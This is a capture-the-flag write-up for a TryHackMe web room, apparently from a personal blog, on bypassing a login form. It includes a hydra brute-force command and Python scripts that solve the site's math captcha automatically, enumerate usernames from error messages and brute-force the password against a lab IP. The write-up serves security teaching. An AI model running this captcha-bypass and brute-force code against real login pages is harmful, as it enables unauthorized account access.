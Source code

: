 ```yaml
---
title: "Capture! [WEB]"
categories: TryHackMe
permalink: /ctfs/tryhackme/capture
---
```

Simple login page to practice broken authentication vulnerability.

## 📁 Challenge Description

>Can you bypass the login form?

**DOWNLOADED TASK FILES**: `usernames.txt`, `passwords.txt`

**usernames.txt**

```
rachel
rodney
corrine
erik
chuck
[877 lines...] 
ronny
colin
ivy
madge
orville
```

**passwords.txt**

```
football
kimberly
mookie
daniel
love21
[1557 lines...]
douglas
qwerty
gabby
thankyou
arturo
```

## 🚩 Solution

We had been given a simple login site with username and password need to be filled. The first method comes in my mind with the `usernames.txt` and `passwords.txt` given is to brute-force the login page by using HYDRA.

```
hydra -L usernames.txt -P passwords.txt 10.10.85.242 http-post-form "/login:username=^USER^&password=^PASS^:F=Error" -V -t 20 -I
```

However, it has 1375826 combinations to go through. Moreover, the website activates the captcha checker due to multiple login attempts. Therefore, I consider to look at other entry points within the website.

From my observation, the website does give us a vulnerable behavior which is the **Error message** it returns.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/8d63bb32-06e8-4511-9f31-c766286a98fc)

Based on the image above, when a user enters a set of credentials, it will return an error message `"The user 'username' does not exist."`.

In other words, the website is checking the validity of the `username` instead of checking the `username` and `password`. Thus, the approach of this challenge is to enumerate out the existing username on the website, and then enumerate the password correspond to the username we had enumerated previously. By looking at the challenge hint, we know that we are on the right path.

![image](https://user-images.githubusercontent.com/107750005/237060722-d860b67f-63e0-4f33-90dc-78a0b5a3e272.png)

First, we need to bypass the captcha checker before enumerating the username as the error message indicates the validity of captcha even the username is invalid.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/8334dac8-6900-4019-bb92-2f212c11b374)

To do this, we can create a `get_captcha()` function to manage the captcha part.

```python
#!/usr/bin/env python3
import requests
import re

url = 'http://10.10.85.242/login'

u = open('usernames.txt', 'r').readlines()
p = open('passwords.txt', 'r').readlines()

usernames = ''.join(u).split('\n')
passwords = ''.join(p).split('\n')

def get_captcha(data):

	res = requests.post(url, data=data)

	for item in re.findall('[0-9].*=', str(res.text), re.I+re.M):
		found = '{}'.format(item).split(" ")

	if found[1] == '+':
		return int(found[0]) + int(found[2])
	elif found[1] == '-':
		return int(found[0]) - int(found[2])
	elif found[1] == '*':
		return int(found[0]) * int(found[2])
```

We can observe that every math question generated from the website are `addition`, `subtraction`, and `multiplication` between two numbers. This can be concluded by clicking the "Login" button multiple times.

```python
def enumerate_username():

	testdata = {
		"username": "fakeuser",
		"password": "fakepass",
	}

	testres = requests.post(url, data=testdata)
	captcha = get_captcha(testdata)
	
	for username in usernames:
		data = {
			"username": username,
			"password": "fakepass",
			"captcha": captcha
		}

		res = requests.post(url, data=data)
		captcha = get_captcha(data) # refresh the captcha

		if re.findall('does not exist', str(res.text), re.I+re.M):
			print(f"[-] {username} does not exist.")
		else:
			print(f"[+] {username} found.") 
			break

enumerate_username()
```

As the captcha checker only appear in the `HTTP POST response`, therefore, a `fakeuser` and `fakepass` is created for retrieving the captcha question. After that, loop through all the usernames in the `usernames.txt` and refresh the captcha.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/9a2d1aa4-b030-4960-b005-36ed934d4a04)

Once the username is found, the process of password enumeration is similar with `enumerate_username()`. The only modification is to replace `fakeuser` to the username found `natalie`, and the error message to `"Invalid password"`.

```python
def enumerate_password():

	testdata = {
		"username": "natalie", # enumerated
		"password": "fakepass",
	}

	testres = requests.post(url, data=testdata)
	captcha = get_captcha(testdata)
	
	for password in passwords:
		data = {
			"username": "natalie",
			"password": password,
			"captcha": captcha
		}

		try:
			res = requests.post(url, data=data)
			captcha = get_captcha(data)

			if re.findall('Invalid password', str(res.text), re.I+re.M):
				print(f"[-] Not this password '{password}'.")

		except Exception as e:
			print(f"[+] Password '{password}' found.")
			break

enumerate_password()
```

>NOTE: Once the password is found, the website is no longer generate a new captcha question as it will redirect to another site (e.g., dashboard, etc.). The `get_captcha()` function will not detect any captcha question and results an UnboundLocalError. Therefore, it can be solved with the use of `try` and `except`.

Login with the credentials we had found to get the `Flag.txt`.

![image](https://user-images.githubusercontent.com/107750005/237055454-23b2f834-ba3d-466d-8c03-ef2779fad738.png)

***FLAG***: `7df2eabce3xxxxxxxxxxxxxxxxxxxxxxx`
